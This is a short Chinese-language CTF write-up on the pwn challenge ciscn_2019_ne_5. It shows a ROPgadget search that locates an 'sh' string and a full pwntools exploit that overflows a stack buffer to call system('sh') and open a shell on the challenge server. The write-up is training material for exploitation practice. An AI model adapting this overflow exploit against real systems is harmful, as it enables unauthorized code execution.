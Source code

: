 ```yaml
---
title: Jan 14 Writeup
mathjax: true
date: 2021-01-14 15:15:17
tags: pwn
---
```


## ciscn_2019_ne_5

傻了傻了，居然没想到用ROPgadget来找字符串，而只是在IDA Pro中看了而已。

system函数已经在Print函数中给出来了。只要有一个`/bin/sh`就够了。

但是这样也不准确，只需要`sh`就可以了。

以后找字符串的时候，直接用ROPgadget，不只能找gadget好吧。。。
```
➜  ciscn_2019_ne_5 ROPgadget --binary pwn --string 'sh'
Strings information
============================================================
0x080482ea : sh
```

```python
from pwn import *

p = remote('node3.buuoj.cn', 27077)
elf = ELF('./pwn')
system_plt = elf.plt['system']

payload = b'a' * 0x48 + b'b' * 0x4 + p32(system_plt) + p32(0xdeadbeef) + p32(0x080482ea)
p.sendlineafter('Please input admin password:', 'administrator')
p.sendlineafter('0.Exit\n:', '1')
p.sendlineafter('Please input new log info:', payload)
p.sendlineafter('0.Exit\n:', '4')

p.interactive()
```

